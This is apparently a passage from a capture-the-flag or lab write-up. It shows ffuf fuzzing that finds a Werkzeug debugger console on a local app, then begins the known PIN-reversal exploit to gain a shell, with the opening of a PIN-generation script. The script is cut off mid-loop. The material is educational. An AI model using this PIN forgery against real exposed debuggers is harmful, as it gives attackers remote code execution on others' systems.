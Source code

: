 ```
ffuf -u http://127.0.0.1:5000/FUZZ -w /opt/programs/SecLists/Discovery/Web-Content/raft-medium-words.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:5000/FUZZ
 :: Wordlist         : FUZZ: /opt/programs/SecLists/Discovery/Web-Content/raft-medium-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

console                 [Status: 200, Size: 1909, Words: 405, Lines: 52]
:: Progress: [63087/63087] :: Job [1/1] :: 586 req/sec :: Duration: [0:02:17] :: Errors: 0 ::
```

And browsing to this endpoint shows a Werkzeug Debugger:

![picture](https://i.imgur.com/ULXd6Bj.png)

# User

The Werkzeug debugger is hosted on the web app running as Angus. As Angus is running it, if code execution can be obtained through this debugger, we can get a shell as Angus!

## Werkzeug PIN exploit

The debugger is protected by a pin. Werkzeug's method for calculating the pin can be reverse as detailed in [Dahee Park's article](https://www.daehee.com/werkzeug-console-pin-exploit/) and shown on [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug). To do this, access is needed to private information but since RCE has already been obtained, these values aren't private anymore. Pulling the default script from the article:

```python
import hashlib
from itertools import chain
probably_public_bits = [
	'web3_user',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
	'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
```